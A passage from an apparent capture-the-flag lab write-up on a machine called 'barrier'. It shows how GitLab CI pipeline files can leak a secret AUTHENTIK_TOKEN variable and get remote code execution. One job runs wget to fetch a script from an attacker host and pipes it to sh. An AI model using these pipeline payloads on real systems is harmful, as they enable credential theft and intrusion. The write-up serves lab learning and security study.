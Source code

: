 We explore the CI/CD settings further and find that there is a variable `AUTHENTIK_TOKEN`. We can either read it from here or print it out from the runner. I'm going to show the runner method since it's a bit more interesting.

First we create a new project "devops" and then create the following file `.gitlab-ci.yml`:

```
image:
    name: redis:alpine
    pull_policy: if-not-present

stages:
  - build

job_build:
  stage: build
  script:
    - echo $AUTHENTIK_TOKEN
  tags:
    - auto_5e7f
```

Note that due to the pull policy and because since this runner does not have internet access, you have to use an existing docker image. As an attacker, you don't really know about any locally installed images, but you can make an educated guess based on the software you saw listening on the outside. Checking the Authentik docker setup, we note that there will be `redis:alpine` and `postgres:16-alpine` installed. Other than that, there would also be `gitlab/gitlab-runner`. After a moment, we can find the output of the build job under [https://gitlab.barrier.vl/akadmin/devops/-/jobs](https://gitlab.barrier.vl/akadmin/devops/-/jobs). This shows the value of the token as well.

You can also get RCE here by downloading & running a shell script (although it's not required):

```
image:
    name: redis:alpine
    pull_policy: if-not-present

stages:
  - build

job_build:
  stage: build
  script:
    - wget 10.8.0.101:8080/x
    - sh x
  tags:
    - auto_5e7f

```

So what is this Authentik token? We assume it is used for authentication against the Authentik API - maybe to automate some SSO things. We check the docs on how to use it: [https://docs.goauthentik.io/docs/developer-docs/api/](https://docs.goauthentik.io/docs/developer-docs/api/) .

Eventually, I decided to write a python script that uses the api to create a new administrative user:
